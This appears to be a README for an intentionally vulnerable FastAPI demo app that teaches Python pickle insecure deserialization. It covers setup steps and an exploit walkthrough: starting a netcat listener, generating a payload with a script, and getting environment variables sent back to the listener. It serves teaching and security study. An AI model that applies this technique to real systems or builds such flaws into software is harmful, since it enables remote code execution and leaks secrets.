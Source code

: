 # Demo Insecure Deserialization
Demo Insecure Deserialization in Python web application using FastAPI + Async SQLAlchemy + Postgres database + Docker.

# prerequirement
This app require create postgress database before start
```
docker compose up -d --build postgres
docker compose exec -it postgres bash
createdb -h localhost -p 5432 -U dev-user ktltat_db
psql -h localhost -p 5432 -U dev-user -d ktltat_db
```

# run
Back to terminal and follow below steps:
```
docker compose up -d --build
docker compose exec ktltat_app alembic revision --autogenerate -m "initdb"
docker compose exec ktltat_app alembic upgrade head
```

![Image](images/app_login.png)

![Image](images/app_index.png)

# exploit
## Init netcat listener

```
nc -nvlp 1337 
```
![Image](images/init_netcat_listener.png)

## Get your local ip

```
ip a
note: local ip often is formated: 192.168.x.x
```
![Image](images/get_your_local_ip.png)

## Gen shell
```
note: Must change variable local_ip in shell_grenerator.py file before
python shell_grenerator.py
```
![Image](images/generate_shell.png)

## Send request attach shell
![Image](images/send_request_attach_shell.png)

## Exploit success
After send request attach shell, pickle module ran "env" command and sent output to netcat listener

![Image](images/exploit_success.png)

This code in path app/dependency.py is exploited

![Image](images/code_is_exploited.png)

